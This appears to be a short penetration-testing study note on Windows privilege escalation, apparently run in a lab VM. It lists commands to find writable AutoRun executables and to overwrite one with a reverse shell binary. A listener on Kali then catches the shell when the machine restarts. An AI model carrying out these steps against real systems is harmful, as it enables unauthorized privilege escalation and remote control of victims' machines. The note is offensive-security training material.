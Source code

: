 1. Use winPEAS to check for writable AutoRun executables:

```command prompt - windows
.\winPEASx64.exe quiet applicationsinfo
```

2. Alternatively, we could manually enumerate the AutoRun executables:

```command prompt - windows
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```command prompt - windows
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


3. >The `C:\Program Files\Autorun Program\program.exe` AutoRun executable is writable by Everyone. Create a backup of the original:

```command prompt - windows
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

4. Copy our reverse shell executable to overwrite the AutoRun executable:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
copy /Y C:\PrivEsc\reverse.exe "C:\Program files\AutorunProgram\program.exe"
```

5. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.

![[___.Misc Commands#Restart host]]